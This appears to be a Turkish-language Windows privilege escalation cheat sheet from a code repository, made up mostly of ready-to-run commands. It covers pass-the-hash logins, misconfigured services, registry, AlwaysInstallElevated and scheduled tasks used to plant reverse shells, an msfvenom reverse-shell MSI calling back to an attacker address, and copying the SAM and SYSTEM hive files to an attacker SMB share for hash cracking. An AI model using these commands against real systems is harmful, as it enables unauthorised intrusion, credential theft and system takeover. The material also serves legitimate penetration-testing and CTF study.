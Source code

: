 #Windows Privilege Escalation
***


**Windows'a bağlanmak için komutlar:**

- ```xfreerdp /u:USER /p:PASWORD /cert:ignore /v:MACHINE_IP```
- ```rdesktop -u USER -p PASWORD MACHINE_IP```
- ```pth-winexe -U 'USER%hash' //MACHINE_IP cmd.exe``` (hash NT:LM şeklinde belirtilmelidir.)
- ```winexe -U 'USER%PASSWORD' //MACHINE_IP cmd.exe```
- ```python3 psexec.py DOMAIN/USER:PASWORD@MACHINE_IP```
***

**Dosya paylaşımı için komutlar:**
- ```python3 -m http.server``` ile dinlendikten sonra, hedef üzerinde ```wget IP_ADRESI:PORT/DOSYA_ADI``` ile veya powershell varsa ```powershelliwr -Uri IP_ADRESI:PORT/DOSYA_ADI -Outfile ÇIKTI_DOSYASI``` şeklinde kullanılabilir.
- SMB dosya paylaşım servisi ile birçok Windows sürümü için ```impacket-smbserver DIZIN .``` komutu kali linux üzerinde çalıştırıldıktan sonra, hedef windows üzerinde komut satırından ```copy \\KALI_IP\DIZIN\DOSYA_ADI``` komutları ile dosya alınabilir. Burada **DIZIN** sizin belirlediğiniz herhangi bir isim olabilir. **DIZIN** ifadesinden sonra "**.**" ile kali üzerinde o an bulunulan dizin servis edilmiş olur ve istenirse klasör adı belirtilerek değiştirilebilir.
- **Socat ile dosya paylaşımı:** 
  *Server sending file:*
server: ```socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr```
client: ```socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat```
*Server receiving file:*
server: ```socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt```
client: ```socat -u FILE:test.txt TCP:127.0.0.1:9876```
***
##*1. Enumeration with WinPEAS*
Winpeas daha sonra anlatılacak olan bir çok yöntemi sömürmek için gerekli açıklıkları bulmaktadır. Ayrıca sistemde hardcoded kayıtlı parolalar ve zamanlanmış görevler gibi yetki yükseltmeye yarayabilecek bilgileri de sunar.

- ```winpeas.exe``` #run all checks (except for additional slower checks - LOLBAS and linpeas.sh in WSL) (noisy - CTFs)
- ```winpeas.exe systeminfo userinfo``` #Only systeminfo and userinfo checks executed
- ```winpeas.exe notcolor``` #Do not color the output
- ```winpeas.exe domain``` #enumerate also domain information
- ```winpeas.exe wait``` #wait for user input between tests
- ```winpeas.exe debug``` #display additional debug information
- ```winpeas.exe log``` #log output to out.txt instead of standard output
- ```winpeas.exe -linpeas=http://127.0.0.1/linpeas.sh``` #Execute also additional linpeas check (runs linpeas.sh in default WSL distribution) with custom linpeas.sh URL (if not provided, the default URL is: https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh)
- ```winpeas.exe -lolbas```  #Execute also additional LOLBAS search check
***
##*2. Güvensiz Servis İzinleri*

Servislerin konfigürasyonlarını değiştirmeye izin verildiğinde ortaya çıkar ve servis başlangıç dosyaları değiştirilerek kullanılabilir. 

- ```accesschk.exe /accepteula -uwcqv USER SERVIS_ADI``` ile kullanıcının servis üzerindeki izinleri sorgulanır.
- ```sc qc SERVIS_ADI``` ile servisin hangi yetkilerle çalıştığı ve diğer bilgileri görüntülenir.
- ```sc config SERVIS_ADI binPath="C:\PrivEsc\reverse.exe"``` komutu ile reverse shell dosyasının komutu servis binary path'i olarak belirlenir ve ardından ```sc start SERVIS_ADI``` ile servis başlatılarak reverse shell alınabilir. 
Bu işlemler yapılırken servis ayarlarını değiştirmek ve başlatma gibi yetkilerin olunduğundan emin olunmalıdır.

##*3. Unquoted Service Path*
Bu açıklık servis dizinleri " " işaretleri arasında belirlenmemişse ortaya çıkmaktadır. ' ' veya " " işaretleri arasında yazılmayan servis dizinlerinde servis çalıştırılırlen her boşluktan sonra .exe konularak dosya aranmakta ve boşluk içeren dizinlerin bir üstüne yazma hakkımız varsa buraya doğru isimdeki reverse shell konularak yetki yükseltilebilir.

- **C:\Program Files\Unquoted Path Service\Common Files\servis.exe** dosyasında ```C:\Program Files\Unquoted Path Service``` klasörüne yazma hakkımız varsa Common.exe isimli bir reverse shell oluşturup servis haklarıyla çalışmasını sağlayabiliriz. Bu durumda ```net start SERVIS_ADI``` komutuyla servis yeniden başlatıldığında **Common.exe** isimli shell dosyamız çalışacaktır.
- Önce ```accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"``` komutuyla yazma izni kontrol edilir ve daha sonra ```copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"``` komutu ile shell dosyası ilgili dizine koyulur.

##*4. Zayıf Registry İzinleri*

- ```sc qc regsvc``` komutu ile regsvc servisinin sistem haklarıyla çalıştığı görülür.
- ```accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc``` komutu ile izinler kontrol edilir. **NT AUTHORITY\INTERACTIVE** yazıyorsa **INTERACTIVE** ifadesi tüm giriş yapmış kullanıcıları kastetmektedir ve bu durumda da tüm kullanıcılar için izin var demektir.
- ```reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse_shell.exe /f``` komutu yardımıyla regsvc servisinin binary dosyasının yeri reverse_shell dosyasının yeri olarak belirlenir ve ```net start regsvc``` ile yeniden başlatıldığında reverse shell başlatılmış olur.

##*5. Güvensiz Servis Exe İzni*
- ```sc qc SERVIS_ADI``` ile servisin hakları kontrol edilir.
- ```accesschk.exe /accepteula -quvw "C:\Program Files\Service\SERVIS.exe"``` ile servis exe dosyasının yazılabilir olduğu doğrulanır.
- Daha sonra servis exe dosyası ```copy reverse.exe "C:\Program Files\Service\SERVIS.exe" /Y``` komutu yardımıyla reverse_shell.exe ile değiştirilir ve ```net start SERVIS_ADI``` ile yeniden başlatılır.

##*6. Otomatik Çalışan Programlar*

- ```reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run``` otomatik çalışan programlar kontrol edilir ve ```accesschk.exe /accepteula PROGRAM_PATH``` ile yazma iznimizin olduğu doğrulanır. Yazma iznimiz varsa ```copy``` komutuyla ilgili dosyanın üzerine reverse_shell yazılır ve hangi durumda çalışıyorsa, tetiklenmesi sağlanır.

##*7. Always Install Elevated*
Bu izin msi uzatılı yükleme dosyalarının daima yüksek izinlerle çalıştırılıp programları yüklemesi için verilir. ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi``` komutuyla üretilen reverse_shell msi dosyası uzak sistemde çalıştırıldığında system haklarıyla shell alınır.
- İlk önce aşağıdaki kayıt defteri girdilerinden bu iznin bulunduğu doğrulanır.
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

- Ardından oluşturulan msi uzantılı shell dosyası doğrudan ```.\reverse.msi``` veya ```msiexec /quiet /qn /i C:\PrivEsc\reverse.msi``` yazılarak komut satırından çalıştırılabilir.

##*8. Kayıtlı Parolalar*
Çeşitli sebeplerle sisteme kaydedilmiş parolalar aranıp bulunabilir.

- Registry'de kayıtlı parolalar için: ```reg query HKLM /f password /t REG_SZ /s```
- Bellekte kayıtlı parolalar varsa: ```cmdkey /list``` komutu ile görülebilir. Ardından ```runas /savecred /user:admin C:\PrivEsc\reverse.exe``` çalıştırılabilir. Reverse shell yerine CMD'de çalıştırılabilir.
- SAM ve SYSTEM dosyaları varsa ve okunabiliyorsa: ```copy C:\Windows\Repair\SAM \\10.10.10.10\kali\``` ve ```copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\``` komutlarıyla kali'ye gönderilir. Ardından kali üzerinde ```samdump2 SYSTEM SAM``` ile hash'ler elde edilir ve kırılmaya çalışılabilir.

##*9. Zamanlanmış Görevler*
Zamanlanmış görev tespit edildiyse ve dosyalar değiştirilebiliyorsa yetki yükseltmek için kullanılabilir.
Eğer dosyaya yazma iznimiz varsa ```echo .\reverse.exe >> C:\Programs\SCHEDULED_TASK.ps1``` komutu ile dosya içeriği değiştirilebilir. 

##*10. Güvensiz GUI Uygulamaları*
Bu uygulamalar belirli haklarla çalışıyorsa ve dosya çalıştırmak için girdi alıyorsa, cmd.exe veya powershell.exe dosyaları girdi olarak verilerek o kullanıcının haklarıyla çalıştırılabilir.

##*11. TokenImpersonation İzinleri ve Saldırıları*
Eğer objeler üzerinde SEImpersonation izinlerimiz varsa o kullanıcı haklarıyla belirli işlemler yapılabilir. **SeImpersonatePrivilege** veya **SeAssignPrimaryTokenPrivilege** gibi izinler bulunuyorsa bu işlem yapılabilir. ```whoami /priv``` komutuyla kullanıcı izinleri kontrol edilebilir. Daha sonra Impersonation izni PSExec gibi araçlarla sömürülebilir. 

- ```C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe``` komutuyla *C:\PrivEsc\reverse.exe* dosyası *"nt authority\local service"* kulanıcısı impersonate (taklit) edilerek çalıştırılabilmektedir. ***(Dosyaların tam yolunun verilmesi, sistem kullanıcısının dosyayı bulması için önemlidir.)***
- Burada yukarıdaki komutun çalışabilmesi ***SeImpersonatePrivilege*** veya ***SeAssignPrimaryTokenPrivilege*** gibi bir iznin kullanıcıya verilmiş olmasından kaynaklanmaktadır.